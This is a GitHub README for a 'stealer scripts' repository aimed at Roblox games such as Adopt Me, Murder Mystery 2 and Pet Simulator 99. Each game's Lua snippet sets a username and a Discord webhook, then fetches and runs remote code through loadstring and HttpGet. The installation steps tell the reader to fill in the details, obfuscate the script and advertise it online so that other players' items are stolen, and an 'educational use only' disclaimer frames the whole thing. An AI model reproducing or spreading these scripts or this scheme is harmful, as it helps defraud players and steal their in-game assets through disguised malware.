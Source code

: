 # Star Script's 💫

Welcome to the K4F7's Personal Stealer Scripts Repository on GitHub. This collection features scripts for popular Roblox games such as Murder Mystery 2, Adopt Me, and Pet Simulator 99.

## Disclaimer ✅
Please use these scripts responsibly and in accordance with Roblox's terms of service. Unauthorized use of scripts may result in account suspension or banning. Note that I am not responsible for any use with these scripts as these are educational use only. Thanks!

## Features 🌠
- **Game Compatibility**: Scripts available for various popular Roblox games.
- **User-Friendly**: Easy to integrate and use within your Roblox experience.
- **Regular Updates**: Scripts are maintained and updated to ensure compatibility with game changes.

## Available Scripts ☄️
- **Murder Mystery 2** 🔪
- **Adopt Me** 🐕
- **Pet Simulator 99** 🐈

## Scripts 📚
**Adopt Me** 😺
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("adopt",true))()"
```
**Murder Mystery 2** 🔫
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("murder",true))()"
```
**Pet Simulator 99** 🐶
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("pet",true))()"
```

## Installation Instructions 📩
1. Find the script you want to steal items from players on.
2. Fill out necessary imformation.
3. Obfuscate the full script with the information.
4. Copy the obfuscated script and advertise it online.

## Contribution 💁
Contributions are welcome! If you have scripts to add or improvements to suggest, please submit a pull request.

## Support 🙌
For any questions or issues, please open an issue in the repository or refer to the documentation provided with each script.
